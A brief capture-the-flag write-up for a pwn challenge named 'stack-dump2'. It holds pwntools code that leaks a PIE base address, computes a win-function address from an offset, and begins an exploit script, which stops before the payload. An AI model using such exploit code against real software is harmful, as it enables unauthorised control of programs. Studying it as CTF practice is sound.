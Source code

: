 ## stack-dump2

* its almost the same except you checksec with `PIE enabled`
* all we need to know is the win func addr, first we can dump base addr by `p` cmd

	```
	p.sendline(b"\n\np")
	line = p.recvuntil(b'heap').decode('latin-1').rstrip()
	print('line:', line)
	#
	base_address = get_base_address(line)
	print("base_address:", base_address)
	```

* calculate win addr by `offset`

	```
	win_addr_int = int(base_address, 16) + int('0x1219', 16)
	print("win_addr_int:", hex(win_addr_int))
	win_addr = p64(win_addr_int)
	```

* script

	```
	from pwn import *
	def get_base_address(memory_map_output):
	    for line in memory_map_output.splitlines():
	        # Check if the line contains the binary name and an 'r-xp' segment (executable section)
	        if '00000000' in line:
	            # Extract the base address (start of the memory range)
	            base_address = line.split('-')[0].lstrip('$').strip()
	            print("base_address is {}".format(base_address))
	            return '0x' + base_address
	    return None
	
	def interact_with_process(binary_path, host=None, port=None):
	    # Start the process
	    if host and port:
	        p = remote(host, port)
	    elif args.HOST:
	        p = process(binary_path)
	    else:
	        context.terminal = ['tmux', 'splitw', '-h', '-p', '70']
	        p = gdb.debug('./stack-dump2',
	                      gdbscript='''
	                          b *0x401319
	                          c
	                          ''')
	